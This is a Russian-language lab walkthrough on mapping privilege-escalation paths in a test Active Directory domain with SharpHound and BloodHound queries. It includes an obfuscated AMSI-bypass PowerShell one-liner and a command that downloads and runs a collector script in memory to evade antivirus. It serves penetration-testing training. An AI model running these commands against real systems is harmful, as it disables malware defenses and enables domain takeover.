 После создания стенда представим, что нам доступна учетная запись "org\user", имеющая доступ по RDP к нашему тестовому серверу/рабочей станции. BadBlood рандомно сгенерил права доступа к объектам в LDAP (как и сами эти объекты), и нашей учетной записи с большой вероятностью тоже достались какие-то права. Для анализа возможных путей развития атаки соберем информацию об объектах домена с помощью SharpHound.

## SharpHound
https://github.com/BloodHoundAD/SharpHound  
Это наиболее полный "родной" сборщик к BloodHound и собирает максимум информации (не считая дополнения от Certipy).  
Готовый exe антивирусы будут воспринимать как вредоносный файл. Но в комплекте доступен PowerShell скрипт, в который включен энкоженый бинарь, который будет записан напрямую в оперативную память и запущен оттуда без сохранения на диск.  
Перед запуском потребуется отключить AMSI (Antimalware Scan Interface работает только в версиях Windows 10 и Server 2016 и выше, и не работает в PowerShell 2). Обходы регулярно прикрывают и придумывают новые, актуальные способы можно посмотреть, например, здесь: https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell  
Как вариант:  
```
[ReF]."`A$(echo sse)`mB$(echo L)`Y"."g`E$(echo tty)p`E"(( "Sy{3}ana{1}ut{4}ti{2}{0}ils" -f'iUt','gement.A',"on.Am`s",'stem.M','oma') )."$(echo ge)`Tf`i$(echo El)D"(("{0}{2}ni{1}iled" -f'am','tFa',"`siI"),("{2}ubl{0}`,{1}{0}" -f 'ic','Stat','NonP'))."$(echo Se)t`Va$(echo LUE)"($(),$(1 -eq 1))
```
Выполняем это командой PowerShell, например, с хоста, где у нас есть RDP-доступ, и запускаем SharpHound:  
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1'); Invoke-BloodHound -c All -s
```
Если отсутствует доступ в интернет с хоста, можно загрузить на свою Kali (или другой хост аттакера, который используется в стенде) и расшарить с помощью python http.server (или другим предпочитаемым способом).

После окончания работы скрипта в директории запуска (или указанной в опциях запуска) должен сохраниться zip-архив с данными в формате для BloodHound. Забираем его с хоста и перетаскиваем в запущенный интерфейс BloodHound. После загрузки нажать "Refresh Database Stats" или перезапустить BloodHound:  
![refreshjpg](./images/refreshjpg.jpg)

Получаем граф вроде такого:
![first_screen](./images/first_screen.jpg)

## Поиск векторов

Теперь мы можем выполнять различные запросы в BloodHound для изучения возможных путей получения доступа. Для начала пометим нашу учетную запись как Owned с помощью следующего запроса (в ly4k версии Ctrl+Enter для запуска):  
```
MATCH (u:User) WHERE u.name in ["USER@ORG.LOCAL"] SET u.owned = true RETURN u
```
(ДопИнфо) Учетки компьютеров можно помечать так:  
```
MATCH (c:Computer) WHERE c.name in ["S1.BANK.LOCAL","S2.BANK.LOCAL"] SET c.owned = true RETURN c
```
Рассмотрите и попробуйте различные предзаготовленные вопросы:
![queries1](./images/queries1.jpg)
![queries2](./images/queries2.jpg)

Для нашего случая в первую очередь интересен "Shortest Paths to Domain Admins from Owned Principals".  
При удачном раскладе найдется цепочка, например так:  
![case1-1](./images/case1-1.jpg)

Здесь два GenericAll (BadBlood генерит только GenericAll) на учетки компов и 1 GenericAll на контейнер User.  
GenericAll на компьтеры наиболее удобно использовать для развития доступа с помощью вариантов:
- Получение пароля LAPS или GMSA (если используется)
- Shadow Credentials (для доменов с PKINIT, т.е. где KDC >= Windows Server 2016)
- RBCD takeover для более старых доменов

GenericAll на контейнер User использовать не получится. Для дальнейшего исследования можно удалить (правой кнопкой, Delete Node) его из базы объектов (восстановить можно будет повторной загрузкой того же zip) и перезапустить запрос:
![case1-2](./images/case1-2.jpg)
В цепочке появился GenericAll на OU, проэксплуатировать его можно с помощью создания наследуемой ACE на доступ к OU. Метод экслуатации описан тут: https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#id37 (With GenericAll Over an OU).  
Также на https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html можно найти описание спобов эксплуатации других прав доступа, отображаемых BloodHound.

Другой пример полученной изначально в "Shortest Paths to Domain Admins from Owned Principals" цепочки (в другом домене):
![case2-DCOM](./images/case2-DCOM.jpg)

ExecuteDCOM в общем случае и чаще всего ничего нам не дает (читать тут https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#executedcom)  
Кроме того, CanRDP - это непривилегированный доступ и требует повышения на хосте до админа для дальнейшего продвижения по цепочке.
Мы можем отфильтровать неприятные типы прав доступа с помощью фильтров:
![case2-filters](./images/case2-filters.jpg)

С таким условием никаких цепочек "Shortest Paths to Domain Admins from Owned Principals" не находится.  
Чтобы повысить шансы, мы можем дополнительно пометить как High Value группы KEY ADMINS, ENTERPRISE KEY ADMINS. Следующий запрос также установит High Value для аккаунтов с Unconstrained delegation:
```
MATCH (dc:Computer)-[:MemberOf*1..]->(g:Group) WHERE g.objectsid ENDS WITH "516" WITH COLLECT(dc) as domainControllers MATCH p = (d:Domain)-[:Contains*1..]->(c:Computer {unconstraineddelegation:true}) WHERE NOT c in domainControllers SET c.highvalue = true RETURN c
```
Затем можем использовать запрос для поиска кратчайшего пути от Owned до High Value (или до Domain Admins, если это ближе):
```
MATCH p=shortestPath((u {owned: true})-[*1..]->(g:Group {name: 'DOMAIN ADMINS@ORG.LOCAL'})) WHERE NOT (u)-[:MemberOf*1..]->(:Group {highvalue: true}) RETURN p
```
Также для дополнительного исследования возможных путей можно использовать запросы 'Shortest Path from Owned principals', 'Find Shortest Paths to Domain Admins', 'Shortest Paths to High Value Targets', но они полезны преимущественно в комбинации с другими атаками, когда есть потенциал дополнительно скомпрометировать какие-либо объекты. Еще кастомный запрос для исследования цепочек заданной длины от Owned объектов:
```
MATCH p=shortestPath((c {owned: true})-[*1..5]->(s)) WHERE NOT c = s RETURN p
```
К сожалению, фильтры не работают на кастомные запросы. Можно просто удалить неудобные переходы. Удалив ExecuteDCOM, получим такую цепочку:
![case2-RDOC](./images/case2-RDOC.jpg)
Удалив CanRDP, получим "No data returned from query".  
Можно пойти другим путем, например, "Shortet Paths to Domain Admins from Kerberoastable Users":
![case2-kerberoastable](./images/case2-kerberoastable.jpg)
Цепочки выглядят перспективно.